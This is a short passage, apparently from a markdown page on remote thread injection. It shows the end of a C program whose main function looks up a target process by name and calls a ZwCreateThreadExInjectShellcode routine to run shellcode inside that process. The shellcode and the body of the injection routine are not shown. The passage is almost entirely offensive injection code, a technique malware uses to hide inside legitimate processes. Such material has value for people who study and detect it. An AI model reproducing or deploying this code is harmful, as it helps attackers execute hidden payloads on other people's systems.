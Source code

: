 ```c
		0, 0, 0, 0,
		NULL
	);

	if (hRemoteThread == NULL)
	{
		puts("zwcreatethread fun error");
		return 0;
	}
	CloseHandle(hProcess);
	FreeLibrary(hNtdllDll);

	return TRUE;
}

/*
主函数
*/
int main(int argv, char* argc[])
{

	LPVOID PID = NULL;


	//通过进程名获取pid
	GetProcessIdByProcessImageName(&PID, argc[1]);
	if ((int)PID == FALSE)
	{
		puts("pid get error");
		return 0;
	}

	BOOL ret = ZwCreateThreadExInjectShellcode((int)PID);
	if (ret == FALSE)
	{
		printf("ZwCreateThreadExInjectShellcode error\n");
	}
	
	return 0;
}
```

![image-20230211174940781](RemoteThreadInjection.assets/image-20230211174940781.png)
